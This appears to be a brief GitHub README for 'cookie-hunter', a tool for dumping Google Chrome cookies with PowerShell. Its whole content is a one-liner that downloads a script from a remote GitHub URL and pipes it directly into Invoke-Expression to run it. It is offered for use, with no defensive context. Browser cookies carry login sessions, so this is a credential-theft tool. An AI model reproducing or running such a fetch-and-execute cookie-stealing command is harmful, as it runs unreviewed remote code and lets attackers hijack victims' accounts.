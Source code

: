 # cookie-hunter
Dump google chrome cookies using powershell

#### Dump chrome cookies using oneliner
```powershell
iwr https://raw.githubusercontent.com/ScRiPt1337/powercookiemonster/main/powerdump.ps1 -useb | iex
```
